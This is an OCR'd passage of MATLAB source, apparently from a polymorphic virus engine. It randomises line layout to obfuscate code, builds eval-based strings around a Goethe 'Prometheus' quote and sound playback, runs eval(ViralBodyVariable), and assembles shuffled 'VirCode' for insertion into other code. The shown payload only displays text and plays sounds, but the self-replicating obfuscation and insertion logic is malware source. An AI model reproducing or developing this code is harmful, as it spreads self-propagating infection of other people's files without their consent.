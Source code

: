     if(RandomAppearenceOfIfs)
        LineBreaksIf=fix(rand(1,4)*2); LineShift={};
        LineShift{1}(1:fix(rand*8))=' '; if rand>0.7 LineShift{1}='    ';end
        if rand>0.4
            LineShift{2}=LineShift{1};
        else
            LineShift{2}(1:fix(rand*8))=' ';
        end;
    end
    ObfusCount=ObfusCount+1;

    disp(ObfusCount/length(NewCode));
end
Var2Wrt{1}{end+1}='warning off all';
ActualCodeForThisPart{end+1}={['TheImportantValue=' TmpRndName{1} '; eval(TheImportantValue);']}; Var2Wrt{end+1}={};
ActualCodeForThisPart{end+1}={['TheValueToCompare=' QuoteSign 'disp(' QuoteSign QuoteSign 'Bedecke deinen Himmel, Zeus, Mit Wolkendunst, Und übe, dem Knaben gleich, Der Disteln köpft, An Eichen dich und Bergeshöhn; Müßt mir meine Erde Doch lassen stehn, Und meine Hütte, die du nicht gebaut, Und meinen Herd Um dessen Gluth Du mich beneidest.' QuoteSign QuoteSign ');' QuoteSign ';']};Var2Wrt{end+1}={};
ActualCodeForThisPart{end+1}={['if(strcmp(TheImportantValue,TheValueToCompare)) load gong.mat;sound(y, Fs);else disp(' QuoteSign 'SOME PROBLEM' QuoteSign '); load handel.mat; for i=1:1 sound(y, Fs); end; input(' QuoteSign 'STOP' QuoteSign '); end']};Var2Wrt{end+1}={};

if ~isempty(Var2Wrt)
    for j=1:length(Var2Wrt)
        for i=1:length(Var2Wrt{j})
            disp(Var2Wrt{j}{i});
        end
    end
end

if ~isempty(ActualCodeForThisPart)
    for j=1:length(ActualCodeForThisPart)
        for i=1:length(ActualCodeForThisPart{j})
            disp(ActualCodeForThisPart{j}{i});
        end
    end
end

eval(ViralBodyVariable);

disp('Lets start the insertation!');


VirCode={}; Count020=length(ActualCodeForThisPart);
while Count020>0
    VirCode{end+1}=ActualCodeForThisPart{Count020};
    for Count021=Count020:length(ActualCodeForThisPart)     
        if ~isempty(Var2Wrt{Count021}) if rand>0.3 VirCode{end+1}=Var2Wrt{Count021}(end); Var2Wrt{Count021}(end)=[]; end; end
    end
    Count020=Count020-1;
end
